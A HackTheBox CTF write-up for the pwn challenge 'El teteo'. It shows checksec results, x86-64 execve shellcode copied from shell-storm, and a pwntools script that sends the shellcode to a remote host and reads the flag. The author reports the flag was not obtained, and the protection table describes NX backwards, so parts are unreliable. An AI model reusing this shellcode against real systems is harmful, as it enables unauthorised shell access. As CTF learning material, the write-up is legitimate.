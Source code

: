 ```yaml
---
title: El teteo
tags:
  - CTF
  - HackTheBox
  - Pwn
---
```

First, I checked the security of the binary with `checksec`:

![](Pasted%20image%2020241023161716.png)

So it has the following protections:

| Protection | Enabled  |                     Usage                     |
| :--------: | :------: | :-------------------------------------------: |
| **Canary** |    ✅     |         Prevents **Buffer Overflows**         |
|   **NX**   |    ❌     |     Disables **code execution** on stack      |
|  **PIE**   |    ✅     | Randomizes the **base address** of the binary |
| **ReLRO**  | **Full** |   Makes some binary sections **read-only**    |

Then I executed the binary:

![](Pasted%20image%2020241023161557.png)

I analyzed the code with Ghidra:

![](Pasted%20image%2020241023161912.png)

Our input is being stored in local_68 and called as a function, so we can use the following payload from [shellstorm.org](https://shell-storm.org/shellcode/files/shellcode-806.html):

`\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05`

And our solver script will look like:

```shell
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'

fname = './el_teteo' 

LOCAL = False # CHANGE THIS TO True if you want to run it locally

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

# Shellcode from https://shell-storm.org/shellcode/files/shellcode-806.html
sc = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

# Send shellcode
r.sendlineafter('>', sc)

# Get flag
pause(1)
r.sendline('cat flag*')
print(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

> I don't know why, but I can't get the flag